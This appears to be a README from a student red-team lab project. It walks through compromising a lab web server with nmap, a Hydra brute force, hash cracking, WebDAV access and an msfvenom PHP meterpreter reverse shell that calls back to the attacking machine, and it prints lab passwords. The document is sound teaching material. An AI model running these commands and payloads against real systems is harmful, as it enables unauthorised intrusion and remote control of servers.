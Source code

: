 # RED-vs-BLUE
Project demostrating my knowledge in defensive security, and pentration testing in a gray box environment.
## Network Topology
![Topology](Images/red-team-env.png)

| Name | Function | IP Address |
| -------- | --------| --------- |
| Kali VM  | Attacking Machine | 192.168.1.90 |
| Capstone VM | Target Machine | 192.168.1.105 |
| ELK Server | Monitoring Machine | 192.168.1.100 |

## Discover the IP address for the Linux server

-Open up a terminal and run an nmap of the network
`nmap 192.168.1.0/24`
![Nmap scan]{Images/nmap_find_webserver.png}

- Looking at the image above we can see that port 80 is open on 192.168.1.105. Which is the machine that we are looking for.

- We now need to open up a browser and navigate to the web page.
` http://192.168.1.105 `

## Locate the hidden directory on the server

- Navigating through different directories, you will see a reoccurring message.
*Please refer to company_folder/secret_folder for more information*
*ERROR: company_folders/secret_folder/ is no longer accessible to the public*

- Navigate to that directory by updating the path in the url.
` http://192.168.1.105/company_folders_secret_folder `

- The directory asks for authentication in order to access it. Reading the authentication method, it says *For ashton's eyes only*

- This gives us a good idea on what account to target

## Brute force the password for the hidden directory

- Because the folder is password protected, we need to either guess the password or brute force into the directory. In, this case, it would be much more efficient to use a brute force attack, specifically Hydra.

- Command used `hydra -l ashton -P ./wordlist/rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder`
![Hydra](Images/hydra_psswd_hash.png)

- We can see that Ashton's password is *leopoldo*
- Going back to the *company_folders/secret_folder* enter the information that we found.

- Once inside the directory navigate the the *connect_to_corp_server* We find instructions on how to connect to the server via **WebDAV**
- We can also see ryan's password hash.
![webdav instructions](Imaages/web-dav-dir.png)

## Connect to the server via WebDAV

- Using ryan's password hash we can either put the hash into a file with the proper format and use `john`, or we can use *https://crackstation.net* to crack the passwod. In this case we will be using *crackstation*.

-Naviage to *https://crackstation.net* and enter the hash into the text box.

![Crackstation](Images/crackstation_psswd_hash.png)

- The password is revealed as: `linux4u`

## Connect to the server via WebDAV

- In order to connect to the webserver via WebDAV we need to do as follows.
  1. Open the **File System** from the desktop
  2. Click **Browse Network**
  3. In the URL bar, type: `dav://192.168.1.105/webdav` and enter ryans credentials to log in.
![Webdav-login](Images/webdav_login.png)

## Upload a PHP reverse shell payload

- We start by creating the payload using **msfvenom**.

- `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > shell.php`

![msf-payload](Images/msf-payload.png)

- On the Kali machine we need to set up a listener.
  - Start msfconsole: run `msfconsole`
  - Load module: run `use exploit/multi/handler`
  - Set payload: run `set payload php/meterpreter/reverse_tcp`
  - Set Local Host: run `set LHOST 192.168.1.90`
  - Set Local Port: run `set LPORT 4444`
  - View settings for module: run `show options`
  - Start the listener: run `exploit`

![listener](Images/reverse_shell_complete.png)


- Now drag and drop the **shell.php** from the Kali desktop to the webserver.
![msf-payload](Images/msfvenom_payload.png)

- Connect to the webdav folder by navigating to **192.168.1.105/webdav** and use ryan's credentials. **ryan:linux4u**

- Click the `shell.php` - If the browser is hanging or loading that means its working.

## Using Meterpreter to find flag

- Open the listener and change to the root directory. `cd /`
- Search the system for files that conatin *flag* `find . -iname flag
- Cat out the file found `cat flag.txt`
![flag found](Images/flag_found.png)

## Analysis

### Finding the target

- In this grey hat environment we were able to find which server was the Web Server by noticing which host had port 80. The service running on this port is http which is an unsecure protocol as it doesn't encrypt it's traffic.

### Locate vulnerable directories and files

- After navigating to the vulnerable target we traveresed through the directories to find hints on which directories conatined sensitive data. We notice that the directory */secret_folder/* is no longer available to the public. 

- Navigating to this directory requires authentication, and a note that states "for ashton's eyes only". This gives us information on what the username might be to access this directory.

### Brute force the hidden directory

- We used the hydra command to brute force the password for ashton's account. Here is a breakdown of the hydra command used.
   - `hydra` - command
   - `-l ashton` - login name
   - `-P /usr/share/wordlists/rockyou.txt` - Point the password to load several passwords from a file.
   - `-s 80` - run command on port 80
   - `-f` - stop command after the first found username/password pair.
   - `-vV` - Verbose mode which shows attempted username and password combinations
   - `192.168.1.105` - targeted address
   - `http-get /company_folders/secret_folder` - send a http-get request to the targeted directory

- Running this command was able to enumerate the password for ashton's account.
- Using the credentials found we were able to find another file on how to connect to the Web Server via WebDav.

### Connecting to Server via WebDav

- WebDav is an extension of the hypertext protocol that allows clients to perform remote Web content authoring operation. Knowing this gives us the ability to add changes to the Web server.

- With the given hash and username associated with the hash we are easily able to crack the hash with `john` or by using crackstation.net.

### 